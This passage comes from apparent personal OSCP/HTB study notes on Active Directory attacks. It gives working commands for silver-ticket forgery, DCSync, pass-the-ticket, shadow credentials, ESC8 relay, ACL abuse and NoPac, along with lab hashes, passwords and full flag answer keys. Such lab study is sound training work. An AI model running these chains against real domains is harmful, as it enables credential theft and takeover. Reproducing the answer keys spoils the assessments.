# Domain SID: S-1-5-21-1987370270-658905905-1781884369
```

#### Step 3: Forge and inject the silver ticket

```cmd
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

Key flags:
- `/ptt` — Pass The Ticket: inject directly into the current session's Kerberos cache (no file needed)
- `/user:jeffadmin` — the username embedded in the ticket (what the app sees; doesn't need to be real)
- `/service:http` — the service class from the SPN
- `/target:web04.corp.com` — the server
- `/rc4:` — the service account's NTLM hash
- Note: `kerberos::golden` handles both golden AND silver tickets, same command, different hash

Mimikatz sets group memberships to include Domain Admins (RID 512) and Administrators (RID 500) by default.

#### Step 4: Verify and use

```powershell
klist
# Shows: Client: jeffadmin @ corp.com, Server: http/web04.corp.com @ corp.com

iwr -UseDefaultCredentials http://web04
# StatusCode: 200 — access granted as jeffadmin!
# Before the silver ticket: StatusCode: 401 Unauthorized
```

> 🔍 Worth remembering generally: silver tickets have a 10-year validity by default (Mimikatz sets a distant future end time). They survive password changes on the user account in the ticket, but NOT password changes on the service account (whose hash was used to forge it). Rotating the service account's password immediately invalidates all silver tickets for that SPN.

> 🔧 Technique: silver tickets work for any SPN service class: `/service:http` (IIS), `/service:cifs` (SMB shares), `/service:mssql` (SQL Server), `/service:host` (WinRM/PowerShell Remoting). The service class must match the SPN exactly.

> 🔧 Technique: PAC validation (the mitigating control) was patched in October 2022 (KB5008380), it's enforced when both the client and KDC are patched. On fully patched post-2022 environments, silver tickets for non-existent users are blocked. Tickets for real domain users still work.

> 📸 Screenshot: Mimikatz kerberos::golden output + klist showing the silver ticket + iwr returning 200

**23.2.4 Labs**

> ✅ Done: 23.2.4 VM Group 1. RDP as jeff to CLIENT75. Mimikatz privilege::debug + sekurlsa::logonpasswords → iis_service NOT in LSASS on CLIENT75 (runs as service on web04, not here). Used known hash from module: `4d28cf5252d39971419580a51484ca09`. Domain SID from jeff's SID: `S-1-5-21-1987370270-658905905-1781884369`. Forged: `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`. Verified with klist (10-year ticket). `(iwr -UseDefaultCredentials http://web04).Content | findstr /i "OS{"` → **Flag: OS{c1f252d8a7b98d70a86df3bb65559f94}** (in HTML comment)

---

### 23.2.5 Domain Controller Synchronization (DCSync)

Domain controllers in production sync with each other via the **Directory Replication Service (DRS) Remote Protocol**. A DC can request credential updates for specific objects using the `IDL_DRSGetNCChanges` API.

The receiving DC only checks whether the requesting SID has specific replication rights, **not whether the caller is actually a domain controller**. So any account with those rights can impersonate a DC and pull credentials.

> 🌐 External: [HackTricks. DCSync](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md) | [PayloadsAllTheThings. DCSync Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#dcsync-attack)

Required rights (default holders):
- `Replicating Directory Changes` + `Replicating Directory Changes All` + `Replicating Directory Changes in Filtered Set`
- Default holders: **Domain Admins**, **Enterprise Admins**, **Administrators**

#### Windows: Mimikatz lsadump::dcsync

Connect as a user with replication rights (e.g. jeffadmin / BrouhahaTungPerorateBroom2023!):

```cmd
mimikatz # lsadump::dcsync /user:corp\dave
:: Pulls dave's credentials via DRS replication — no need to be on the DC

mimikatz # lsadump::dcsync /user:corp\krbtgt
:: krbtgt hash → enables golden ticket forgery

mimikatz # lsadump::dcsync /user:corp\Administrator
:: Domain admin hash → PtH everywhere
```

Output includes: NTLM hash (current + history), AES256/AES128 keys, LM hash.

Crack the NTLM hash:

```bash
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
# Lab result: dave / Flowers1
```

#### Linux: impacket-secretsdump

```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
# The \ before ! is needed — bash interprets ! in double-quoted strings
# Output format: dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
#                      ^^^^ RID  ^^^^ empty LM hash           ^^^^ NT hash (crack this)

# Dump all users (no -just-dc-user):
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

The tool uses DRSUAPI (the Microsoft DRS API), same traffic as real DC replication.

> 🔍 Worth remembering generally: once you have the krbtgt hash, you can forge golden tickets. TGTs that are signed by the real krbtgt key, giving you access as any user in the domain. Golden tickets survive password changes (except krbtgt rotation). DCSync + golden ticket = persistent domain access.

> 🔧 Technique: if secretsdump gives authentication errors with the password, check bash escaping. `!` inside double quotes in bash is interpreted as a history expansion character, use single quotes or backslash-escape it. Or just connect via RDP first and run Mimikatz interactively.

> 📸 Screenshot: impacket-secretsdump output showing user:RID:LM:NT::: format

**23.2.5 Labs**

> ✅ Done: 23.2.5 VM Group 1. RDP as jeffadmin (BrouhahaTungPerorateBroom2023!) to CLIENT75. Mimikatz privilege::debug + lsadump::dcsync /user:corp\krbtgt → **krbtgt NTLM: 1693c6cefafffc7af11ef34d1c788f47** (AES256: e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c). No DC touch needed. DRSUAPI replication impersonation from CLIENT75.

> ✅ Done: 23.2.5 Capstone (VM Group 2). Full chain:
> 1. `impacket-GetNPUsers corp.com/pete` → mike has pre-auth disabled
> 2. `hashcat -m 18200` + capstone.rule (`:` / `$1` / `$!`) → **mike: Darkness1099!**
> 3. `crackmapexec smb <all IPs> -u mike -p 'Darkness1099!'` → mike is Pwn3d! on CLIENT75
> 4. RDP as mike → Mimikatz privilege::debug + sekurlsa::logonpasswords → **maria NTLM: 2a944a58d4ffa77137b2c587e6ed7626** (running as service on CLIENT75)
> 5. `sekurlsa::pth /user:maria /domain:corp.com /ntlm:2a944a58d4ffa77137b2c587e6ed7626 /run:powershell` → new PS window as maria
> 6. `type \\192.168.249.70\c$\users\administrator\desktop\flag.txt` → **Flag: OS{348c1a28da1bdb49b3d5d689000b1c46}**
> Note: flag.txt not proof.txt; used IP instead of hostname for DC1 UNC path.

> ✅ Done: 23.2.5 Capstone (VM Group 3). Full chain:
> 1. `crackmapexec smb <all IPs> -u meg backupuser -p 'VimForPowerShell123!'` → **meg** has the password; backupuser doesn't
> 2. `impacket-GetUserSPNs corp.com/meg` (after clock sync: `timedatectl set-ntp false` + `ntpdate DC_IP` + reconnect VPN) → **backupuser** is Domain Admin + has SPN `http/files04.corp.com`
> 3. `hashcat -m 13100 hashes.kerberoast2 rockyou.txt -r /home/kali/capstone.rule` → **backupuser: DonovanJadeKnight1**
> 4. backupuser was locked out from earlier auth failures, used jeffadmin instead
> 5. `crackmapexec smb 192.168.249.70 -u jeffadmin -p 'BrouhahaTungPerorateBroom2023!' -x 'type C:\Users\Administrator\Desktop\flag.txt'` → **Flag: OS{8e29767a7fe94f42c040bd9c43ab2e72}**
> Key gotchas: (1) backupuser locked out from failed Kerberos clock-skew attempts during spray, don't spray with wrong creds repeatedly; (2) RDP to CLIENT75 as meg failed (not in RDU group); (3) Rubeus over evil-winrm fails (no TGT in NTLM session), impacket from Kali after clock sync is cleaner; (4) clock sync kills VPN if offset >~1min, disable NTP first, ntpdate, reconnect VPN immediately.

---

## 23.3 Wrapping Up

All attacks from this module can chain into a complete path to Domain Admin:

1. **Password spray** (Spray-Passwords.ps1 / crackmapexec / kerbrute) → valid credentials
2. **AS-REP Roasting** (impacket-GetNPUsers / Rubeus) → hash → crack offline → more credentials
3. **Kerberoasting** (impacket-GetUserSPNs / Rubeus) → TGS hash → crack → service account creds
4. **Silver ticket** (Mimikatz kerberos::golden) → forge service access with any permissions
5. **DCSync** (Mimikatz lsadump::dcsync / secretsdump) → pull all domain hashes → krbtgt → golden ticket

The next module ([[24. Lateral Movement in Active Directory|Lateral Movement in Active Directory]]) builds on these to cover Pass-the-Hash, Pass-the-Ticket, and golden ticket lateral movement.

---

## 23.4 HTB Extended Techniques

Content merged from the HTB AD Enumeration & Attacks module (AD.9-AD.10, AD.12-AD.13) and the HTB Password Attacks module (PA.19-PA.22).

---

### 23.4.1 Pass the Ticket from Windows (PA.19)

Kerberos TGTs can be exported from LSASS memory and imported into a different session to authenticate as that user without their password.

**Step 1 -- Export all tickets from LSASS:**

> 🖥️ **Run as Administrator:**
```cmd
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
# Exports .kirbi files to current directory
# Group 2 = TGT (what you want)
# Group 0/1 = TGS service tickets (service-specific, less useful)
# Filename: [LUID]-Group-N-Flags-username@krbtgt-REALM.kirbi
```

**Step 2 -- Import a ticket (Pass-the-Ticket):**

> 🖥️ **Run in mimikatz:**
```
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator\[0;461ec]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
# → * File: '...': OK
mimikatz # klist   # verify ticket loaded
mimikatz # exit
```

After PtT, the current cmd session authenticates as john via Kerberos:
```cmd
dir \\DC01.inlanefreight.htb\john
type \\DC01.inlanefreight.htb\john\john.txt
```

**Step 3 -- PtT + PSRemoting (use the ticket in PowerShell):**

```powershell
# From the same cmd where kerberos::ptt was run, spawn PowerShell:
powershell
Enter-PSSession -ComputerName DC01
# Works because child process inherits the Kerberos credential cache
[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt
```

> 🔍 `kerberos::ptt` loads the ticket into the current process's Kerberos cache. Any child process (including PowerShell) inherits it. `Enter-PSSession` then uses Kerberos automatically.

> 🔁 PtT vs PtH: PtT uses Kerberos tickets (required when NTLMv1/v2 is disabled). PtH (Module 16/23.4 elsewhere) uses NTLM hashes. Same goal, different protocol.

**HTB Q&A:**
- Number of user TGTs in the module: **3**
- Flag at `\\DC01\john\john.txt` via PtT: `Learn1ng_M0r3_Tr1cks_with_J0hn`
- Flag at `C:\john\john.txt` via PSRemoting: `P4$$_th3_Tick3T_PSR`

#### Tags: #PassTheTicket #PtT #Kerberos #TGT #kirbi #mimikatz #sekurlsatickets #kerberosPtt #PSRemoting #Module23

---

### 23.4.2 Pass the Ticket from Linux (PA.20)

Linux AD-joined machines store Kerberos tickets as ccache files in `/tmp/`. These can be stolen and used on Kali directly.

**Find and steal ccache files:**

```bash
# Check realm membership
realm list

# Find ccache files owned by domain users
ls -la /tmp/ | grep krb5
# → krb5cc_647401106_9JBodG (julio@inlanefreight.htb)

# Steal and use the ticket
cp /tmp/krb5cc_647401106_9JBodG /root/
export KRB5CCNAME=/root/krb5cc_647401106_9JBodG
klist   # verify ticket

# Access SMB share as julio (no password)
smbclient //dc01/julio -k -c 'get julio.txt' -no-pass
```

**Find and extract keytab files (long-term keys for service accounts):**

```bash
# Find keytab files
find / -name *keytab* -ls 2>/dev/null
# → /opt/specialfiles/carlos.keytab (rw-rw-rw-)

# Extract hashes from the keytab
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
# → NTLM HASH, AES-256 HASH, AES-128 HASH

# Crack the NTLM hash
hashcat -m 1000 <ntlm_hash> /usr/share/wordlists/rockyou.txt
# → Password5
```

**Check crontabs for keytab references:**

```bash
crontab -l
# → /home/carlos/.scripts/kerberos_script_test.sh

ls -la /home/carlos@inlanefreight.htb/.scripts/
python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
# → NTLM for svc_workstations → crack → Password4
```

**Use machine account keytab for SMB access:**

```bash
kinit 'LINUX01$@INLANEFREIGHT.HTB' -k -t /etc/krb5.keytab
smbclient //dc01/linux01 -k -c 'get flag.txt' -no-pass
```

> ⚠️ `KRB5CCNAME` only affects the current shell. Re-export in each new terminal.

**HTB Q&A:**
- Flag in David's home directory: `Gett1ng_Acc3$$_to_LINUX01`
- Group that can connect to LINUX01: **Linux Admins**
- World-writable keytab filename: **carlos.keytab**
- Flag in carlos home (keytab crack): `C@rl0s_1$_H3r3`
- Flag in svc_workstations home: `Mor3_4cce$$_m0r3_Pr1v$`
- Flag at /root/flag.txt (sudo su): `Ro0t_Pwn_K3yT4b`
- julio.txt via ccache PtT: `JuL1()_SH@re_fl@g`
- flag.txt via LINUX01$ keytab: `Us1nG_KeyTab_Like_@_PRO`

#### Tags: #PassTheTicket #Linux #ccache #KRB5CCNAME #keytab #keytabextract #kinit #smbclientKerberos #realm #Module23

---

### 23.4.3 Pass the Certificate / Shadow Credentials (PA.21)

**Shadow Credentials** abuse the `msDS-KeyCredentialLink` AD attribute. Write access to a target object lets you add a certificate credential, then authenticate via PKINIT (certificate-based Kerberos) without knowing the password.

**Option A -- pywhisker (direct, requires write access to target account):**

```bash
# Add certificate credential to target account
python3 pywhisker.py --dc-ip DC_IP -d DOMAIN.LOCAL -u user -p 'password' \
  --target jpinkman --action add
# → PFX certificate saved to: 1UCYb0YS.pfx
# → Password for PFX: 1P9EvC2tKKJlBSum4Ej4

# Request TGT via PKINIT
python3 gettgtpkinit.py \
  -cert-pfx ../pywhisker/pywhisker/1UCYb0YS.pfx \
  -pfx-pass '1P9EvC2tKKJlBSum4Ej4' \
  -dc-ip DC_IP \
  DOMAIN.LOCAL/jpinkman /tmp/jpinkman.ccache

export KRB5CCNAME=/tmp/jpinkman.ccache
evil-winrm -i dc01.domain.local -r domain.local
```

> ⚠️ **Common error fix:** `Error detecting the version of libcrypto` → run:
> ```bash
> pip3 install -I git+https://github.com/wbond/oscrypto.git
> ```

**Option B -- ADCS ESC8 relay (coerce DC auth → relay to ADCS → machine cert → DCSync):**

```bash
# Step 1: Relay incoming NTLM to ADCS enrollment endpoint
sudo impacket-ntlmrelayx \
  -t http://CASERVER_IP/certsrv/certfnsh.asp \
  --adcs -smb2support \
  --template KerberosAuthentication

# Step 2: Coerce DC to authenticate to Kali
python3 printerbug.py DOMAIN/user:pass@DC_IP KALI_IP
# ntlmrelayx catches DC machine auth → relays to ADCS → DC01$.pfx

# Step 3: TGT for machine account
python3 gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip DC_IP \
  'domain.local/dc01$' /tmp/dc.ccache
export KRB5CCNAME=/tmp/dc.ccache

# Step 4: DCSync via machine account
impacket-secretsdump -k -no-pass -dc-ip DC_IP \
  -just-dc-user Administrator \
  'DOMAIN.LOCAL/DC01$'@DC01.DOMAIN.LOCAL

# Step 5: PtH with Administrator hash
evil-winrm -i dc01.domain.local -u Administrator -H <ntlm_hash>
```

> 🔍 **ESC8 requires:** ADCS web enrollment enabled, NTLM coercion on the DC (PrinterBug/PetitPotam), and no EPA (Extended Protection for Authentication) on the enrollment endpoint.

**HTB Q&A:**
- jpinkman Desktop flag: `3d7e3dfb56b200ef715cfc300f07f3f8`
- Administrator Desktop flag (ADCS relay): `a1fc497a8433f5a1b4c18274019a2cdb`

#### Tags: #PassTheCertificate #ShadowCredentials #pywhisker #PKINITtools #PKINIT #ADCS #ESC8 #ntlmrelayx #printerbug #DCSync #Module23

---

### 23.4.4 ACL Enumeration (AD.9)

Every AD object has a Security Descriptor with two ACLs:
- **DACL** (Discretionary ACL): who can access the object and what they can do -- this is what attackers target
- **SACL** (System ACL): access audit log entries -- what gets monitored

ACE types inside a DACL:
- `Access_Allowed_ACE_Type` -- explicit allow
- `Access_Denied_ACE_Type` -- explicit deny (processed first)

**PowerView ACL enumeration:**

```powershell
# Get current user's SID
$sid = Convert-NameToSid wley

# Find all objects where wley has a non-trivial ACE
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# Output per ACE:
# ObjectDN         : CN=damundsen,...
# AceType          : AccessAllowed
# ActiveDirectoryRights : GenericWrite
# ObjectAceType    : User-Force-Change-Password
```

> 💡 Always use `-ResolveGUIDs` -- without it, rights appear as raw GUIDs like `00299570-246d-11d0-a768-00aa006e0529` (User-Force-Change-Password).

**Exploitable ACE rights quick reference:**

| Right | What it means | Attack |
|---|---|---|
| `GenericAll` | Full control | Password reset, add to group, targeted Kerberoast |
| `GenericWrite` | Write any non-protected attribute | Set SPN (targeted Kerberoast), modify logon script |
| `ForceChangePassword` | Reset without knowing current password | `Set-DomainUserPassword` |
| `Self-Membership` | Add yourself to a group | `Add-DomainGroupMember` |
| `WriteOwner` | Change object owner | Change owner → GenericAll |
| `WriteDACL` | Modify the DACL | Grant yourself GenericAll |
| `DS-Replication-Get-Changes-All` | DCSync rights | `lsadump::dcsync` |

**HTB Q&A:**
- Which ACL do attackers target: **DACL**
- Full control right name: **GenericAll**
- User-Force-Change-Password GUID: **00299570-246d-11d0-a768-00aa006e0529**
- Flag to resolve GUIDs in PowerView: **ResolveGUIDs**
- wley's right on damundsen: **GenericWrite**
- damundsen's right on adunn (via group): **GenericAll**
- Right to add yourself to a group: **Self-Membership**

#### Tags: #ACLEnum #DACL #SACL #ACE #GetDomainObjectACL #ResolveGUIDs #ConvertNameToSid #PowerView #Module23

---

### 23.4.5 ACL Abuse Chain (AD.10)

Classic lab chain: `wley` (captured via Responder) → `damundsen` → `Help Desk Level 1` → `adunn` (DS-Replication) → DCSync.



**Step 1 -- Force-change damundsen's password (as wley):**

```powershell
$passwd = ConvertTo-SecureString "transporter@4" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $passwd)

$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

**Step 2 -- Add damundsen to Help Desk Level 1 (as damundsen):**

```powershell
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
Get-DomainGroupMember -Identity 'Help Desk Level 1' | Select MemberName  # verify
```

**Step 3 -- Set SPN on adunn (GenericAll → targeted Kerberoast):**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
.\Rubeus.exe kerberoast /user:adunn /nowrap
hashcat -m 13100 adunn.hash /usr/share/wordlists/rockyou.txt
# → SyncMaster757
```

**Cleanup (always clean up in labs):**

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
Remove-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

> 🔍 The `PSCredential` pattern (`$Cred = New-Object ... PSCredential`) runs PowerView commands in a different user's context without an interactive logon. This is how you chain multi-hop ACL abuse.

**HTB Q&A:** adunn's cracked Kerberoast hash: **SyncMaster757**

#### Tags: #ACLAbuse #SetDomainUserPassword #AddDomainGroupMember #SetDomainObject #TargetedKerberoast #PSCredential #PowerView #Module23

---

### 23.4.6 Privileged Access via WinRM and SQL (AD.12)

**BloodHound Cypher queries for non-standard paths:**

```cypher
-- Users with PSRemote rights to any computer
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer)
RETURN p2

-- Users with SQLAdmin rights to any computer
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer)
RETURN p2
```

**WinRM with PSCredential:**

```powershell
$passwd = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\forend', $passwd)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

**MSSQL via SQLAdmin rights (Windows Authentication):**

```bash
mssqlclient.py INLANEFREIGHT.LOCAL/damundsen@172.16.5.150 -windows-auth
```

Inside the SQL shell:
```sql
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell "type c:\users\administrator\desktop\flag.txt"
```

> 🔁 Similar to [[16. Password Attacks#16.3.7. MSSQL Attack Chain|16.3.7 MSSQL]] but using AD credentials (`-windows-auth`) instead of SQL auth.

**HTB Q&A:**
- User with CanPSRemote rights: **bdavis**
- SQLAdmin target host: **ACADEMY-EA-DC01**
- Flag from xp_cmdshell: `1m_the_sQl_@dm1n_n0w!`

#### Tags: #PrivilegedAccess #BloodHoundCypher #CanPSRemote #SQLAdmin #PSRemoting #mssqlclient #windowsauth #xpcmdshell #Module23

---

### 23.4.7 NoPac -- CVE-2021-42278 + CVE-2021-42287 (AD.13)

NoPac chains two vulnerabilities:
- **CVE-2021-42278**: Machine accounts can rename `sAMAccountName` to impersonate a DC
- **CVE-2021-42287**: KDC falls back to appending `$` when a TGS principal isn't found, issuing a PAC with DC privileges

Combined: any domain user can impersonate the DC and perform DCSync.

```bash
git clone https://github.com/Ridter/noPac.git && cd noPac
pip3 install -r requirements.txt

# Confirm vulnerability (requires valid domain credentials)
python3 scanner.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
# → Got TGT with PAC → vulnerable

# Get SYSTEM shell as DC via impersonation
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 \
  -dc-ip 172.16.5.5 -use-ldap \
  -shell --impersonate administrator
# → NT AUTHORITY\SYSTEM on the DC
```

> 🔧 NoPac creates a machine account (any domain user can create up to 10 by default -- `MachineAccountQuota`), renames its `sAMAccountName` to match a DC, requests a TGT, renames back, then requests a TGS. The KDC can't find the renamed name, appends `$`, finds the real DC, and issues a PAC with DC privileges. Patched in MS21-42278 (November 2021).

> 💡 Confirm with the scanner before running the exploit -- noisy (creates a machine account). Clean up in real engagements.

**HTB Q&A:**
- NoPac CVE numbers: **2021-42278 + 2021-42287**
- Flag from NoPac shell: `D0ntSl@ckonN0P@c!`

#### Tags: #NoPac #CVE202142278 #CVE202142287 #MachineAccountQuota #BleedingEdge #DCImpersonation #Module23

---

### 23.4.8 Skills Assessment Summary (PA.22 -- ligolo-ng Pivot Chain)

The HTB Password Attacks skills assessment involves a multi-hop chain requiring a ligolo-ng pivot. Key steps for reference:

**ligolo-ng pivot setup:**
```bash
# On Kali: download proxy + agent
sudo ./proxy -selfcert  # listen on 0.0.0.0:11601

# On pivot host (after foothold via username-anarchy + hydra → jbetty:Texas123!@#)
./agent -connect KALI_IP:11601 --ignore-cert

# In ligolo-ng console:
ligolo-ng » session    # select session
[Agent: jbetty@DMZ01] » autoroute   # select internal subnet → start tunnel
```

**Credential chain summary:**
- SSH → `jbetty:Texas123!@#` (username-anarchy + hydra on DMZ01)
- bash_history → `hwilliam:dealer-screwed-gym1` (sshpass command in history)
- Snaffler domain-wide → `Employee-Passwords_OLD.psafe3` in HR share
- `hashcat -m 5200 psafe3.hash rockyou.txt` → `michaeljackson` (Password Safe master password)
- Inside Password Safe → `bdavid:caramel-cigars-reply1` + `stom:fails-nibble-disturb4`
- mimikatz on JUMP01 → `stom NTLM: 21ea958524cfd9a7791737f8d2f764fa`
- nxc smb DC01 -H stom_hash --ntds --user Administrator → `36e09e1e6ade94d63fbcab5e5b8d6d23`

**HTB Q&A:** Administrator NT hash: **36e09e1e6ade94d63fbcab5e5b8d6d23**

#### Tags: #SkillsAssessment #ligolong #pivot #psafe3 #Snaffler #NTDS #Module23

---

### 23.4.9 HTB Q&A Answers

| Section | Question | Answer |
|---|---|---|
| PtT Windows Q1 | Number of user TGTs | **3** |
| PtT Windows Q2 | Flag at \\DC01\john\john.txt | `Learn1ng_M0r3_Tr1cks_with_J0hn` |
| PtT Windows Q3 | Flag at C:\john\john.txt (PSRemoting) | `P4$$_th3_Tick3T_PSR` |
| PtT Linux Q1 | Flag in David's home | `Gett1ng_Acc3$$_to_LINUX01` |
| PtT Linux Q2 | Group that can connect to LINUX01 | **Linux Admins** |
| PtT Linux Q3 | World-writable keytab filename | **carlos.keytab** |
| PtT Linux Q4 | Flag in carlos home (keytab crack) | `C@rl0s_1$_H3r3` |
| PtT Linux Q5 | Flag in svc_workstations home | `Mor3_4cce$$_m0r3_Pr1v$` |
| PtT Linux Q6 | Flag at /root/flag.txt (sudo su) | `Ro0t_Pwn_K3yT4b` |
| PtT Linux Q7 | julio.txt via ccache PtT | `JuL1()_SH@re_fl@g` |
| PtT Linux Q8 | flag.txt via LINUX01$ keytab | `Us1nG_KeyTab_Like_@_PRO` |
| Pass the Certificate Q1 | jpinkman Desktop flag.txt | `3d7e3dfb56b200ef715cfc300f07f3f8` |
| Pass the Certificate Q2 | Administrator Desktop (ADCS relay) | `a1fc497a8433f5a1b4c18274019a2cdb` |
| ACL Enum Q1 | ACL attackers target | **DACL** |
| ACL Enum Q2 | Full control right | **GenericAll** |
| ACL Enum Q3 | User-Force-Change-Password GUID | `00299570-246d-11d0-a768-00aa006e0529` |
| ACL Enum Q4 | Flag to resolve GUIDs | **ResolveGUIDs** |
| ACL Enum Q5 | wley's right on damundsen | **GenericWrite** |
| ACL Abuse Q1 | adunn cracked hash | **SyncMaster757** |
| Privileged Access Q1 | CanPSRemote user | **bdavis** |
| Privileged Access Q2 | SQLAdmin target host | **ACADEMY-EA-DC01** |
| Privileged Access Q3 | Flag from xp_cmdshell | `1m_the_sQl_@dm1n_n0w!` |
| NoPac Q1 | CVE numbers | **2021-42278 + 2021-42287** |
| NoPac Q2 | Flag from NoPac shell | `D0ntSl@ckonN0P@c!` |
| Skills Assessment | Administrator NT hash | `36e09e1e6ade94d63fbcab5e5b8d6d23` |

---

## Mermaid: NTLM Authentication Flow



---

## Mermaid: Kerberos Authentication Flow



---

## Mermaid: Silver Ticket Forge Path



---

## Mermaid: DCSync Attack Path



---

## Mermaid: Capstone Attack Chains

### Capstone VM Group 2 (AS-REP Roast → PTH to DC)



### Capstone VM Group 3 (Kerberoast → privilege escalation)



---

## Video Walkthroughs

| Box | Techniques from this module | Link |
|---|---|---|
| Forest (HTB) | AS-REP Roasting (svc-alfresco), DCSync, golden ticket | [IppSec Forest](https://www.youtube.com/watch?v=H9FcE_FMZio) |
| Active (HTB) | Kerberoasting (Administrator SPN) → psexec | [IppSec Active](https://www.youtube.com/watch?v=jUc1J31DNdw) |
| Sauna (HTB) | AS-REP Roasting (fsmith), DCSync for full domain | [IppSec Sauna](https://www.youtube.com/watch?v=uLNpR3AnE-Y) |
| Resolute (HTB) | Password spray reveals ryan, lateral movement | [IppSec Resolute](https://www.youtube.com/watch?v=8KJebvmd1Fk) |
| Mantis (HTB) | Kerberoasting + SQL lateral movement | [IppSec search](https://ippsec.rocks/?#Mantis) |

Technique keyword searches on ippsec.rocks:
- [#Kerberoasting](https://ippsec.rocks/?#Kerberoasting)
- [#ASREP](https://ippsec.rocks/?#ASREP)
- [#DCSync](https://ippsec.rocks/?#DCSync)
- [#SilverTicket](https://ippsec.rocks/?#SilverTicket)
- [#Mimikatz](https://ippsec.rocks/?#Mimikatz)

---

## 🎯 Related Boxes to Practice

**Genuine technique boxes:**
- HTB Forest, AS-REP Roasting (svc-alfresco has pre-auth disabled) + BloodHound path + DCSync krbtgt + golden ticket. Closest match to 23.2.2 + 23.2.5 combined
- HTB Active. GPP cPassword (Module 22) gives IIS service creds → Kerberoasting Administrator (SPN set on domain admin account) → psexec as DA. Closest match to 23.2.3
- HTB Sauna, AS-REP Roasting fsmith → BloodHound reveals lkys → DCSync as lkys. Matches 23.2.2 + 23.2.5
- HTB Resolute. Password spray finds ryan's domain creds → DnsAdmins abuse. Matches 23.2.1

**Adjacent workflow boxes:**
- HTB Mantis. Kerberoasting via SQL Server connection + credential chain. SPN-based attack pattern from 23.2.3
- HTB Cascade. LDAP attribute hunting yields legacy credential → AD group abuse. Setup phase before auth attacks

---

#### Tags: #ActiveDirectory #Authentication #NTLM #Kerberos #Mimikatz #LSASS #PasswordSpray #ASREPRoasting #Kerberoasting #SilverTicket #DCSync #Module23 #TGT #TGS #KRBTGT #Rubeus #impacket #crackmapexec #kerbrute #SeDebugPrivilege #PAC #PassTheTicket #PtT #PassTheCertificate #ShadowCredentials #ADCS #ESC8 #ACLAbuse #NoPac #ligolong
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/AD - Service Scan]]
- [[RUNBOOK V2/AD - Credential Validation]]
- [[RUNBOOK V2/AD - BloodHound]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/AD/Forest|Forest]] -- AD enumeration and attack paths
- [[OSCP/BOXES/WRITE UPS/AD/Sauna|Sauna]] -- credential discovery and DCSync
- [[OSCP/BOXES/WRITE UPS/AD/Flight|Flight]] -- lateral movement and privilege escalation
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
